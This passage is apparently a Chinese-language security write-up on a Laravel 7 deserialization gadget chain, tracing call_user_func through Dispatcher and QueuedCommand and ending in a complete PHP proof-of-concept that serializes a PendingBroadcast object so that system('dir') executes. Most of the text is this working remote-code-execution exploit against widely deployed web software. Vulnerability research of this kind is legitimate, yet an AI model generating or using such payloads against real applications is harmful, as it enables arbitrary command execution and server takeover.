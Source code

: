 发现 call_user_func , 想办法利用, $this->queueResolver 和 $connection 都可控, 返回 dispatch 跟进一下 commandShouldBeQueued

```
protected function commandShouldBeQueued($command)
{
        return $command instanceof ShouldQueue;
    }

```

需要 $command 是一个实现了 ShouldQueue 接口的对象，全局搜索一下，还挺多的，随便找一个用就可以了，这里用的是 QueuedCommand 类。这样就 if 判断成功，进入 dispatchToQueue() , 然后就可以利用了, POP 链就形成了

```
<?php

/*
# -*- coding: utf-8 -*-
# @filename: laravel 7 RCE poc5
# @author: Ricky
*/

namespace Illuminate\Broadcasting{
    class PendingBroadcast {
        protected $events;
        protected $event;
        public function __construct($events, $event) {
            $this->events=$events;
            $this->event=$event;
        }
    }
}

namespace Illuminate\Foundation\Console {
    class QueuedCommand {
        public $connection;
        public function __construct($connection) {
            $this->connection = $connection;
        }
    }
}

namespace Illuminate\Bus {
    class Dispatcher {
        protected $queueResolver;
        public function __construct($queueResolver) {
            $this->queueResolver = $queueResolver;
        }
    }
}

namespace {
    $c = new Illuminate\Bus\Dispatcher('system');
    $b = new Illuminate\Foundation\Console\QueuedCommand('dir');
    $a = new Illuminate\Broadcasting\PendingBroadcast($c, $b);
    echo urlencode(serialize($a));
}

```

